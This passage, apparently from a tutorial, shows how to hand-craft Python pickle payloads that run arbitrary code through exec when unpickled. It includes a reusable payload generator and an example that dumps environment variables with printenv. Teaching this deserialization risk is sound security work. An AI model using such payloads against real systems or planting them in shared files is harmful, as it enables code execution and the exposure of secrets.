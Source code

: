 ```python
data = construct(
    codes["SHORT_BINUNICODE"],
    "__builtin__",
    codes["SHORT_BINUNICODE"],
    "exec",
    codes["STACK_GLOBAL"],
    codes["SHORT_BINUNICODE"],
    "print('hello from pickle')",
    codes["TUPLE1"],
    codes["REDUCE"],
    codes["STOP"],
)

pickle.loads(data)
```

    hello from pickle

Wowza! This pickle ran the Python code stored as a string in the pickle data via the Python builtin `exec`. We can gussy this up a bit with `inspect` to make crafting payloads easier.

```python
import inspect

def call_function_from_pickle(fn):
    """
    Return a pickle that runs 'fn' when it is 'pickle.load'-ed
    """
    return construct(
        codes["SHORT_BINUNICODE"],
        "__builtin__",
        codes["SHORT_BINUNICODE"],
        "exec",
        codes["STACK_GLOBAL"],
        codes["SHORT_BINUNICODE"],
        inspect.getsource(fn).strip() + f"\n{fn.__name__}()",
        codes["TUPLE1"],
        codes["REDUCE"],
        codes["STOP"],
    )
```

This will create a pickle containing the code of whatever function `fn` is passed in as text.

```python
def show_environment():
    import subprocess

    proc = subprocess.run(["printenv"], stdout=subprocess.PIPE, encoding="utf-8")
    print(proc.stdout)

data = call_function_from_pickle(show_environment)

pickle.loads(data)
```
